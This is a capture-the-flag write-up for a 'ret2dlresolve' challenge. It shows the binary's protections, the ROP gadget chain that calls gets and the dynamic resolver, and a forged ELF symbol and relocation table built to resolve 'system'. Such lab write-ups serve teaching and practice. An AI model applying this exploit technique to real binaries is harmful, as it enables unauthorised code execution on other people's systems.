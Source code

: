 # RET2DLRESOLVE

## Solution


Initially from the binary I can see that there is No PIE
```
/root/workspace/ret2dlresolve/chal.bin
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

I first started with finding and creating the fake addresses that I would need for the fake table addressing. I used Binary Ninja to find the addresses of the symbol and string table as well as the rela.plt. 

Once I had these I looked for a writeable memory address that would be able to hold the fake table. For this address, I used an address that was "outside" of the binary (not shown on Binary Ninja). Using this was possible since the paging for .bss section had to be a minimum of 0x100 bytes.

With all these values set, I looked for the gadgets that I would need to populate rdi. I had to use two gadgets with one popping r10 and the other moving r10 into rdi. I then called 'gets' again for the second chain to be received that would hold the fake table.

In the second part of the chain I had to populate rdi again and then called init_plt. The chain is shown below:

```
chain = cyclic(16)
chain += p64(ret)
chain += p64(pop_r10)                   # moves to r10 and then later rdi in next gadget
chain += p64(writeable_mem)             # writeable memory outside the binary
chain += p64(fini)                      # fini return
chain += p64(mov_rdi)                   # moves r10 to rdi
chain += p64(e.plt['gets'])

chain += p64(pop_r10)
chain += p64(fake_args)
chain += p64(fini)
chain += p64(mov_rdi)
chain += p64(init_plt)
chain += p64(dl_resolve_index)
```
The fake table that was created to hold 'system' entry is below:

```
payload = b'system\x00\x00'     # st_name 
payload += p64(0)               # st_info
payload += p64(0)               # st_other 
# Elf64 Symbol Struct
payload += p64(st_shndex)       # st_shndex 
payload += p64(0)               # st_value 
payload += p64(0)               # st_size 
payload += p64(0)               # padding
# Elf64_Rel Struct
payload += p64(writeable_mem)   # r_offset 
payload += p64(r_info)          # r_info 
payload += p64(0)               # padding
```